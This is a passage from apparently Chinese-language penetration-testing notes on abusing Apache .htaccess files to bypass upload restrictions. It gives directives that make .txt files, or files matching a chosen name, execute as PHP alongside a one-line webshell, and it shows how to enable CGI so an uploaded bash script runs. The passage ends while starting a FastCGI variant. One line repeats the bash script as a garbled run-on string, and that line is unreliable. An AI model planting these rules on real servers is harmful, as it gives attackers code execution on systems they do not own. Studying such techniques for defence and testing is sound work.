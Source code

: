 ```php
SetHandler application/x-httpd-php
# <?php phpinfo(); ?>
```

文件解析配合一句话木马

```php
<FilesMatch  "y4tacker">
SetHandler  application/x-httpd-php
//或ForceType application/x-httpd-php
</FilesMatch>
```

或

```php
AddType application/x-httpd-php .txt
```

或

```php
AddHandler php7-script .txt
```

## Cgi执行

如果开启了cgi扩展，也可以来解析shell脚本，也就是说cgi_module 需要加载，即 apache 配置文件中有,如 apache2.conf中

```php
LoadModule cgi_module modules/mod_cgi.so
```

在.htaccess中

```php
Options +ExecCGI #允许CGI执行
AddHandler cgi-script .sh
```

再写个

```php
#!/bin/bash
echo "Content-Type: text/plain"
echo ""
ls /
exit 0xxxxxxxxxx #!/bin/bashecho "Content-Type: text/plain"echo ""ls /exit 012345
```

FastCgi执行

mod_fcgid.so需要被加载。即 apache2.conf中

```php
LoadModule fcgid_module modules/mod_fcgid.so
```

在.htaccess中
